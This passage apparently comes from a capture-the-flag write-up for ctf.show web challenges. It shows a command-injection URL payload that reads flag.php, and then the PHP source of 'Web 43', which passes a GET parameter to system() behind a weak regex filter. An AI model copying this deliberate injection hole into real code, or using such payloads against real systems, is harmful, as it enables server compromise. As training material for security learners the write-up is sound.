 ```php
http://e8adf119-3cce-41b7-a680-58eefc789d4d.challenge.ctf.show/?c=cat flag.php||
```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（15）Web 43</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:51
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
